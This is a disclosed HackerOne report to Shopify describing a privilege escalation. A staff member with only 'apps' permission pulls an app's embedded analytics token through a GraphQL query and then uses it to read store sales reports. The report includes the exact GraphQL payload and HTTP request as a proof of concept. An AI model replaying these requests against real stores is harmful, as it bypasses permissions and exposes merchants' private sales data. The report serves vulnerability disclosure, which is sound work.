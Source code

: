 # Get analytics token using only apps permission

## Report Details
- **Report ID**: 901775
- **URL**: https://hackerone.com/reports/901775
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-18T15:09:34.670Z
- **Disclosed**: 2020-08-18T21:29:44.758Z

## Reporter
- **Username**: jmp_35p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
It seems apps that can read "analytics" have embedded analytic token. In order to access the /admin/reportify/token.json endpoint explicit dashboard or reports permission is required. A staff member with just "apps" permission can leverage the permissions of apps that can read reports to extract their embedded analyticsToken as long as the appropriate query which is provided below is used. The apikey of the POS app is used here as a variable (see token.png for more).

{"operationName":"EmbeddedAppAnalyticsToken","variables":{"apiKey":"a53cf2ce9b5dabf5dd222b3615c29569"},"query":"query EmbeddedAppAnalyticsToken($apiKey:String!){appByKey:appByKey(apiKey:$apiKey){id installation{id legacyEasdkAnalyticsToken __typename}__typename}}"}

Now, in order to read the store's reports the token gotten from above is used in the query below.
POST /validate?beta=true&dataOnly=false HTTP/1.1
Host: analytics.shopify.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: https://foobar.myshopify.com


q%5B%5D=SHOW+orders%2C+gross_sales%2C+discounts%2C+returns%2C+net_sales%2C+shipping%2C+taxes%2C+total_sales+OVER+day+FROM+sales+SINCE+-30d+UNTIL+today+ORDER+BY+day&source=new-admin&token={token_here}

## Impact

Staff member can perform actions they don't have permission to

## Attachments
No attachments
